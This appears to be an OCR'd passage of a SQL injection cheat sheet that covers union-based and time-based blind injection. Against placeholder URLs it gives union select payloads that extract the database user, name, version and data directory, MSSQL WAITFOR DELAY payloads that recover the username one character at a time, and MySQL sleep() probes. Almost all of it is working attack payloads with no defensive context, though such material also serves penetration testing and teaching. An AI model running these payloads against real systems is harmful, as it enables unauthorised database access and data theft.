     ```
    http://[site]/page.php?id=1 union all select 1,2,3,4,5/
    gives a valid page
    ```
    
    Change the first part of the query to a null or negative value so we can see
    
    ```
    http://[site]/page.php?id=-1 union all select 1,2,3,4,5/*
    prints only 2 and 3
    ```
    
- grab info
    
    ```
    http://[site]/page.php?id=null union all select 1,user(),3,4,5/*
    http://[site]/page.php?id=null union all select 1,2,database(),4,5/*
    http://[site]/page.php?id=null union all select 1,@@version,@@datadir,4,5/*
    ```
    

# 3 Blind SQLi

---

## case 1 MSSQL

```
http://[site]/page.asp?id=1; IF (LEN(USER)=1) WAITFOR DELAY '00:00:10'--
http://[site]/page.asp?id=1; IF (LEN(USER)=2) WAITFOR DELAY '00:00:10'--
http://[site]/page.asp?id=1; IF (LEN(USER)=3) WAITFOR DELAY '00:00:10'--
...
etc until we wait for 10 secs
```

- to extract the user name:
    
    ```
    http://[site]/page.asp?id=1; IF (ASCII(lower(substring((USER),1,1)))>97) WAITFOR DELAY '00:00:10'--
    http://[site]/page.asp?id=1; IF (ASCII(lower(substring((USER),1,1)))>98) WAITFOR DELAY '00:00:10'--
    http://[site]/page.asp?id=1; IF (ASCII(lower(substring((USER),1,1)))=100) WAITFOR DELAY '00:00:10'--
    hangs for 10 seconds
    http://[site]/page.asp?id=1; IF (ASCII(lower(substring((USER),2,1)))>97) WAITFOR DELAY '00:00:10'--
    http://[site]/page.asp?id=1; IF (ASCII(lower(substring((USER),2,1)))=98) WAITFOR DELAY '00:00:10'-- (+10 seconds)
    hangs for 10 seconds
    ```
    
    and so on
    

we can try

```
id=738-sleep(5)  <-si vemos que tarda es por que el input es injectable
select IF(MID(@@version,1,1) = '5',SLEEP(5),0)
```
